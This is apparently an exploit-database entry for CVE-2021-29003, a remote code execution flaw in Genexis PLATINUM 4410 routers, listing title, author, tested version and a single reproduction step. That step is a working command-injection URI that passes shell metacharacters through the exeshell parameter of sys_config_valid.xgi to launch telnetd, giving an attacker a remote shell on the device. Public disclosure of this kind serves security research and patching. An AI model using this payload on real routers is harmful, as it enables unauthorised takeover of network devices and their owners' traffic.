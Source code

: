 Payload
-------

1.  Exploit Title: Genexis PLATINUM 4410 2.1 P4410-V2-1.28 - RCE
2.  Date: 12-4-2021
3.  Exploit Author: Jay Sharma
4.  Version: Genexis PLATINUM 4410 2.1 P4410-V2-1.28
5.  Tested on: V2.1
6.  CVE : CVE-2021-29003

1.  steps to reproduce\#

Genexis PLATINUM 4410 2.1 P4410-V2-1.28 devices allow remote attackers to execute arbitrary code via shell metacharacters to sys_config_valid.xgi, as demonstrated by the <http://x.x.x.x/sys_config_valid.xgi?exeshell=%60telnetd%20%26%60> URI